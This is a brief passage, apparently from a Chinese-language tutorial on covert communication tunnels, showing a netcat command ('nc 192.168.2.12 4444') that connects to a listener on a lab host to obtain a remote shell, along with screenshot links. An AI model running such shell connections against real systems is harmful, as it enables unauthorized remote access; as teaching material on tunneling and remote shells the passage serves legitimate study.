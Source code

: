 ![](/assets/img/隐藏通信隧道基础知识/37.png)

在服务端连接客户端命令，连接成功就可以执行shell：

```
nc 192.168.2.12 4444
```

![](/assets/img/隐藏通信隧道基础知识/38.png)
